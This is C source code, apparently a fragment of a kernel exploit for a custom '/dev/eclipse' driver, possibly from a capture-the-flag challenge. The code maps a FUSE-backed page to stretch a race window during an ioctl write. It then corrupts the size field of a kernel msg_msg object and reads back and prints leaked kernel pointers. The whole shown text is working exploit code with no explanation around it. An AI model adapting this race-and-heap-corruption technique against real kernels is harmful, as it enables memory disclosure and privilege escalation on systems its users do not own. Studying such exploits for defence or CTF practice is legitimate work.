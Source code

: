 ```c

  while (!setup_done) {
    usleep(10000);
  }
  sleep(1); // Give FUSE more time to fully initialize

  void * page;
  fd = open("/dev/eclipse", O_RDWR);
  if (fd == -1) fatal("/dev/eclipse");

  page = mmap_fuse_file();

  struct user_req a;
  a.data = page;
  a.size = 0x400;

  puts("[+] starting alloc");
  if (ioctl(fd, CMD_ALLOC, & a) < 0) {
    fatal("CMD_ALLOC failed");
  }
  puts("[+] alloc done");

   struct itimerspec its;

  its.it_interval.tv_sec = 0;
  its.it_interval.tv_nsec = 0;
  its.it_value.tv_sec = 9999;
  its.it_value.tv_nsec = 0;

  // The first 0x18 bytes will be read from the normal page immediately
  // This will then be overwritten in alloc_msg
  // Finally the fuse page will be read, overwriting m_ts at offset 0x18
  a.data = FUSE_PAGE_ADDR - 0x18;
  printf("Read addr: %p\n", a.data);
  a.size = sizeof(struct msg_msg_layout);
  // Prepare for race condition
  race_active = 1;

  puts("[+] starting write - this should trigger page fault and race");

  if (ioctl(fd, CMD_WRITE, & a) < 0) {
    perror("CMD_WRITE");
  } else {
    puts("[+] write completed - race condition may have been triggered");
  }

  uint64_t * leak = recv_msg(qid[0], 0x2000);
  for (int i = 0; i < 0x100; i++) {
    printf("%d: %p\n", i, leak[i]);
  }
  race_active = 0;

  close(fd);
  if (pwn_fd != -1) close(pwn_fd);

  system("fusermount -u /tmp/test3 2>/dev/null");

  return 0;
}
```
